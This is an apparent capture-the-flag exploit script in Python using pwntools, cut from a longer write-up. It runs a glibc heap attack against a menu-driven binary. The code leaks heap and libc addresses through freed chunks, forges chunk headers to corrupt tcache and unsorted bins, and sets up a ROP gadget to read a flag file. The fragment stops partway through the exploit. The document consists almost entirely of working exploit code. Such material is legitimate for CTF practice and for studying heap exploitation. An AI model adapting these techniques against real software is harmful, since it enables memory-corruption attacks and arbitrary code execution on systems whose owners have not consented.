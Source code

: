 ```python=
else:
  r = remote(host ,port)

if __name__ == '__main__':
  name(0,"A"*0x210)
  d(0)
  name(1,"A"*0x210)
  d(1)
  show(1)
  r.recvuntil(" name: ")
  heap = u64(r.recv(6).ljust(8,"\x00")) - 0x260
  print("heap = {}".format(hex(heap)))
  for i in xrange(5):
    name(2,"A"*0x210)
    d(2)
  name(0,"A"*0x210)
  name(1,"A"*0x210)
  d(0)
  show(0)
  r.recvuntil(" name: ")
  libc = u64(r.recv(6).ljust(8,"\x00")) - 0x1e4ca0
  print("libc = {}".format(hex(libc)))
  d(1)
  rename(2,p64(libc + 0x1e4c30))

  name(0,"D"*0x90)
  d(0)
  for i in xrange(7):
    name(0,"D"*0x80)
    d(0)
  for i in xrange(7):
    name(0,"D"*0x200)
    d(0)


  name(0,"D"*0x200)
  name(1,"A"*0x210)
  name(2,p64(0x21)*(0x90/8))
  rename(2,p64(0x21)*(0x90/8))
  d(2)
  name(2,p64(0x21)*(0x90/8))
  rename(2,p64(0x21)*(0x90/8))
  d(2)



  d(0)
  d(1)
  name(0,"A"*0x80)
  name(1,"A"*0x80)
  d(0)
  d(1)
  name(0,"A"*0x88 + p64(0x421) + "D"*0x180 )
  name(2,"A"*0x200)
  d(1)
  d(2)
  name(2,"A"*0x200)
  rename(0,"A"*0x88 + p64(0x421) + p64(libc + 0x1e5090)*2 + p64(0) + p64(heap+0x10) )
  d(0)
  d(2)
  name(0,"/home/ctf/flag\x00\x00" + "A"*0x1f0)
  magic("A")
  add_rsp48 = libc + 0x000000000008cfd6
```